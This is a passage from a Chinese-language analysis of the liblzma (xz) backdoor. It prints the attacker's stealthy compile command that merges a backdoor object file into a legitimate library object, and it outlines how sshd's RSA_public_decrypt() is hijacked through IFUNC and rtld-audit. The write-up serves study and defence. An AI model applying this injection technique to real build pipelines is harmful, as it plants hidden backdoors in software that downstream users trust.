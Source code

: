 对比代码可以看到攻击者使用 `_is_arch_extension_supported()` 替换了原始函数 `is_arch_extension_supported()`，在内联函数 `_is_arch_extension_supported()` 中调用了外部函数 `_get_cpuid()`。

而外部函数 `_get_cpuid()` 正隐藏在 `liblzma_la-crc64-fast.o` 中，攻击者使用如下编译命令，将后门二进制文件 `liblzma_la-crc64-fast.o` 和修改后的 `crc64_fast.c` 源码编译进原本的 `liblzma_la-crc64_fast.o` [目标文件](./liblzma_la-crc64_fast.o)中(注意下划线的微小差异)：
```
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null
```

对比正常版本下的 `liblzma_la-crc64_fast.o`，我们可以发现明显大小差异：
<div align="center">
<img src="images/liblzma-la-crc64-fast-o-compare.png" width=700>
</br>[15.liblzma_la-crc64_fast.o比较]
</div>

而随后包含后门代码的 `liblzma_la-crc64_fast.o` 将自然而然的被编译链接到[库文件](./liblzma.so.5) `liblzma5.so` 中，完成后门的植入工作。

### 0x04 sshd启动环节
sshd 服务启动时将间接加载 `liblzma5.so` 库，通过 IFUNC 和 rtdl-audit 机制实现对 `RSA_public_decrypt()*` 函数的劫持替换，这是后门执行的入口点。流程示意图如下：
<div align="center">
<img src="images/workflow-sshd.png" width=700>
</br>[16.sshd启动环节流程图]
</div>
